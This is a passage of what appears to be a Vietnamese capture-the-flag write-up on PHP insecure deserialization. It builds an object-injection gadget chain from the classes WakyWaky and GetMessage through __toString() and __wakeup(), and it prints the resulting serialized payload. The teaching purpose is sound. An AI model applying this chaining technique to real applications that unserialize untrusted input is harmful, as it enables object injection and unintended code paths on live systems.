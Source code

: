 ```php
$b = new WakyWaky();
echo $b;
```

Đến đây, chúng ta cần tìm cách "nối" hai sự kiện trên với nhau, để khi server thực hiện deserialization, sự kiện 2 xảy ra và dẫn đến sự kiện 1. Mấu chốt để thực hiện được phép "nối" này chính là giá trị trả về trong phương thức __toString() thuộc lớp WakyWaky() vì khởi tạo một đối tượng mới thuộc lớp GetMessage(). Do vậy chúng ta có thể gán đối tượng $a vào thuộc tính msg của đối tượng $b, để server deserialize đối tượng $b.

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";

$b = new WakyWaky();
$b->msg = $a;
echo $b;

$payload = serialize($b);
unserialize($payload);
```

Đến đây, còn một vấn đề chúng ta cần xử lý, đó là server không thể "tự động" thực hiện **`echo $b;`** trước khi deserialize được. Nên chúng ta cần tìm cách kích hoạt công việc "thực thi **`$b`** như string" một cách tự động. Giải quyết bằng cách tạo thêm một đối tượng mới thuộc lớp **`WakyWaky()`** và gán giá trị **`$b`** vào thuộc tính **`msg`** của đối tượng mới (tận dụng phương thức **`__wakeup()`**)

```php
$a = new GetMessage("viblo");
$a->receive = "HelloBooooooy";

$b = new WakyWaky();
$b->msg = $a;

$c = new WakyWaky();
$c->msg = $b;

$payload = serialize($c);
// echo $payload;
unserialize($payload);
```

Thu được payload:

```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```

![8658784e-89a9-4f6d-b040-44e50c8a6d32.webp](8658784e-89a9-4f6d-b040-44e50c8a6d32.webp)
